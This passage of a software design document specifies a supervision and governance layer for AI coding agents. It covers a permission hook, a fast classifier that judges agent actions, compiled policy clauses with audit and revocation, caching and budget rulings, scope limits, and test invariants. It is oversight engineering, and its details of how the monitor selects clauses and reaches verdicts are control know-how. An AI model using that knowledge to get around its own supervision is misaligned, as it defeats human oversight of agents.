pipeline whose first act trips the platform's own privacy gate is the wrong pipeline. There is also
no need: our inputs are the masked corpus and our own decision log, which contains the one signal
auto memory has no equivalent of — a human overriding a governance decision. The unverified claim is
that memory content is not echoed into the session transcript. If it is, the extraction step needs a
filter. Worth one deliberate check by whoever owns the importer, through the export path rather than
a direct read. A memory note may also state the opposite of an accepted clause and nothing will
reconcile them; we cannot detect that without reading the notes, so we will not claim to.

### The compiled artifact, settled

Five specs written in parallel left residual disagreements, all in one place — the shape of the
compiled artifact. They are recorded with their rulings, because a reader who finds the source specs
still contradicting each other needs to know which side won and why.

1. **Field names are snake_case on disk — and on disk only.** `SupervisionRecord` is already
   snake_case on disk by documented convention, and the artifact is another on-disk file read by the
   same codebase. One convention, no per-file exception: `built_at`, `corpus_ref`, `message`. This
   scopes the JSON and nothing else: **the TypeScript interfaces stay camelCase**, as the rest of
   `src/` is, so no type is renamed by this ruling.
2. **The revision is the content hash.** Identical content must produce an identical revision — that
   is what makes a pinned session's prefix byte-identical, and it avoids needing a second
   `local-<hash>` form for an uncommitted checkout. The corpus git SHA stays as a separate
   informational field, `corpus_ref`, so the markdown is recoverable; it is simply not the identity.
3. **Both files, and they were never alternatives.** The immutable `policy/<rev>.json` files are
   required for audit resolution — a March decision must resolve to the text that actually fired,
   which one mutable file cannot provide. And the hook's budget is milliseconds, so it must not pay
   for a pointer indirection. So `current.json` is a **copy** of the current revision, written
   atomically, and there is no `HEAD` pointer file. The duplicated bytes are a measured 139.8 KB at
   200 clauses with spec-shaped bodies — 210.5 KB with long ones — which is not a cost worth a
   design compromise.
4. **Mutable provenance stays out of the hashed artifact, and `weight` is frozen at accept time.** If
   editing a support count moved the revision, every running session's cached prefix would be
   invalidated at 6.8× and scaling with context. But the selector still needs a ranking signal, so
   `weight` is bucketed once when the clause is accepted and never updated afterwards; live `support`,
   `evidence` and `contradictions` stay in the corpus and the audit log, where the offline tools read
   them. Selection therefore stays reproducible from `(revision, selector, input)` with no sidecar
   file and no revision churn. If a clause's support later changes enough to matter, that is a new
   clause revision through the normal review path — which is the honest way to express it.
5. **The prompt budget is the two-block split, and the existing structure already affords it.** The
   fast classifier, on the unmerged `ss/fast-supervisor` branch, renders `system` as
   `[rubric, knowledge]` with the cache breakpoint on the **last system block**
   (`fastClassifier.ts:260`), and puts the judging instruction on a **trailing user turn** because
   Anthropic has no trailing-system channel — so nothing after that breakpoint is
   cached (`fastClassifier.ts:21-22`). That is exactly the shape the split needs: the revision-stable
   core goes in the cached `system` knowledge block, and the per-call selection rides the uncached
   trailing user turn, costing nothing in cache terms. A single budget over one selection pass would
   put per-call content *inside* the cached prefix and invalidate it on every decision — the precise
   failure §4's pinning exists to prevent.

   The two regions turn out to be **disjoint by construction**, which is better than the ruling
   required: the cached core holds *patternless* clauses and the trailing turn holds clauses that
   *matched this call*, and a clause cannot be both. So there is no arbitration to write, and §6's
   exclusion of evaluated-and-missed clauses composes with the split rather than merely coexisting —
   a clause with patterns is either matched, and free, or absent. **A deterministic clause can never
   occupy cached core budget**, which is a second and stronger reason §8's exemption holds.

Two smaller gaps belong to the schema owner rather than being papered over here. **The audit deadline
field does not exist**: the review templates render "audit closes \<date\>" with nothing to read, so
either the schema gains an `audit_until` field or the templates drop the line. And **the two ceilings
need their two names used consistently**, because both were being called "the ceiling": the
**per-tier rendered-clause ceiling** (25, §8) and the **total instruction-equivalent budget** (~150).

---

## What is deliberately out of scope

- **Rebuilding auto memory.** Session-to-notes extraction is solved, on by default, and machine-local.
  We are the reviewable governance artifact it is explicitly not.
- **Reading the memory directory, or any session content under it.** Human-driven, one-way import of a
  file the *human* points at is the only path, and the human is the trust boundary.
- **Fleet-wide mandate or fleet-wide revocation.** Same unsolved problem, same honest answer: MDM,
  above this layer. The revocation file has a stable schema and no secrets, so a managed fleet could
  push it — a deployment story, not a feature we ship.
- **A vector store, embeddings, or any similarity model at the permission boundary.** Selection is
  token overlap plus deterministic matching. The named upgrade path is the stdlib's own full-text
  search, the day a measured miss rate justifies it.
- **`node:sqlite` in v1.** A 200-clause artifact reads and parses in 0.55 ms (0.75 ms with long
  bodies), and the whole hook policy path — parse, match all clauses, select for one call — measures
  **0.70-0.89 ms against a 2 ms budget**. Compiling takes 5.6-6.5 ms, off the hot path. A
  100,000-record log aggregates in 133 ms, and the retention default keeps roughly 28,000 records.
  The triggers that change this are measured thresholds, written down, and none is met.

  An earlier draft of this document quoted 112 KB and 0.355 ms. Those were projections and both
  were optimistic; the figures above are measured against a real 200-clause, 414-pattern artifact.
  Worth knowing alongside them: the 8 KB core budget binds at roughly **50 patternless red or
  orange clauses** with long bodies, so it is a real limit rather than a theoretical one.
- **A second evaluator for replay.** Replay calls the same exported evaluator the hook calls, with the
  corpus, the clock and the classifier injected. A second evaluator would make the report lie, and it
  would lie in the direction of confidence.
- **Auto-accepting high-confidence candidates.** Nothing writes a policy file except an explicit human
  accept. `confidence` is hand-typed today and nothing measures it; a gate keyed on an unmeasured
  field is theatre.
- **Partial acceptance by parsing review comments.** Group candidates aggressively so the unit is
  already right, and offer a subset-accept flag that produces a *new* fingerprint. Never parse prose.
- **A mutating dashboard.** GET only. Accept and decline live in the CLI, where the actor is a person
  at a shell.
- **A funnel or Sankey visualisation.** Five numbers on one line.
- **A new runtime npm dependency.** Still zero.

---

## How we will know it works

- The full suite stays green and grows in the existing style — no network, no real agent, no VS Code
  instance. The invariants that must have tests are the ones a refactor would erase: a `proposed`,
  `declined`, `superseded` or `audit` clause never affects a verdict; `origin` cannot be forged; the
  pipeline cannot write outside `learned/`; an audit clause changes neither the verdict nor a byte of
  the prompt; no revocation fixture can move any verdict toward allow; a dropped regex fails the
  compile rather than silently protecting nothing; and a decision resolves to the clause text that
  actually fired rather than today's.
- **One real end-to-end run**, per this project's own bar: a live session against the real endpoint,
  a real decision log, real mining, a real proposal file, a real accept, a real commit and a real PR
  against a scratch repo with a bare on-disk remote and an isolated config directory. **Every
  illustrative number in the user docs is then replaced by a number from that run.**
- The two measurements that would falsify the core arguments, taken deliberately: **zero prompt-cache
  prefix breaks** across a session that spans a published revision, and the **rendered
  instruction-equivalents per clause** that §8's rendered-clause ceiling depends on.

---

Related records: [the supervision consolidation](2026-08-30-supervision-consolidation-design.md),
which made the engine host-free and is why the offline pipeline can call the same evaluator the hook
calls; the Claude Code plugin design in PR #33, which builds the clause-citing read path this
document writes into. The user-facing formats are [`docs/KNOWLEDGE.md`](../../KNOWLEDGE.md),
[`docs/CORPUS.md`](../../CORPUS.md) and [`docs/SUPERVISION.md`](../../SUPERVISION.md).
